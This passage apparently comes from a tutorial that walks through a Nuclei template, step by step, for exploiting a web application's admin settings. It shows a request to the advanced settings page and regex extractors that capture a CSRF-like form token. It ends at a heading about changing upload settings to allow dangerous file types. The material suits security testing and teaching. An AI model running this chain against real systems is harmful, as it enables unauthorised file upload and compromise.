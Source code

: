 
---

###  Third Request: Access Settings Page for Tokens

```yaml
- raw:
    - |
      GET /admin/settings/index.php?advanced=yes HTTP/1.1
      Host: {{Hostname}}
```

**Purpose:**

- Accesses the settings page with `advanced=yes` parameter.
    
- The response contains additional tokens required for subsequent requests.
    

---

###  Extract `formtoken` and `app_name`

```yaml
extractors:
  - type: regex
    name: formtoken
    group: 1
    regex:
      - name="formtoken" value="(.*)"
    internal: true
    part: body

  - type: regex
    name: app_name
    group: 1
    regex:
      - name="app_name" value="(.*)"
    internal: true
    part: body
```

**Explanation:**

- Extracts:
    
    - `formtoken`: A CSRF-like token required for saving settings.
        
    - `app_name`: Application name parameter used in the next request.
        
- Stored as internal variables for reuse.
    

---

###  Fourth Request: Modify Upload Settings to Allow Dangerous File Types
